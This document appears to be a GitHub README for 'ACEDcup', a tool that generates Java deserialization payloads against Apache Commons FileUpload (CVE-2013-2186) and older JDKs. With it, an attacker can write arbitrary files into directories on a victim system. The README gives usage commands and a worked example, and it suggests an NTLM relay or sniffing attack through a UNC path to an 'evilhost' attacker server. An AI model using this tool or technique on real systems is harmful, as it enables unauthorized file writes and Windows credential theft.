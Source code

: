 # ACEDcup

ACEDcup tool is a payload generator for Java Binary Deserialization attack (ACED)

For Apache Commons FileUpload ver <= 1.3 (CVE-2013-2186) and Oracle JDK ver < 7u40

The attack works even for newer versions of the lib or Java. We can upload any content in any directory, but 
we cannot control a file name (smth like upload_f71d3547_72ed_4ae1_90fe_0d319115cd42_00000000.tmp) in this situation. Hovewer, it may be useful in some cases. 

Also we can perform a NTLM-relay/sniffing attack (using \\\\evilhost\\any\\path) if your target is on Windows OS.

## Usage
```
  1)
  At first, we create a serialized payload:
  java -jar aced_cup.jar /path/payload /path/target /path/out 1
  
  /path/payload - a path to a file with your payload
  /path/target - a path to a file that will be created in your victim (this will be stored in the serialized payload)
  /path/out - a path to a file with serialized payload
  0 - turn off null-byte ending if you attack a patched system (with null by default)

  2)
  Then we set the serialized payload to a serialized reader:
  java -jar ser_reader serialized_payload.txt
  ser_reader tries to deserialize the payload and because of a vulnerability in it's library, it creates a new file in the directory specified.

```
## Example

 ```java -jar aced_cup.jar D:\\cup_exploit\\payload.txt /home/user/test/any_name.txt D:\\cup_exploit\\serialized_payload.txt```
 ```java -jar ser_reader D:\\cup_exploit\\serialized_payload.txt````
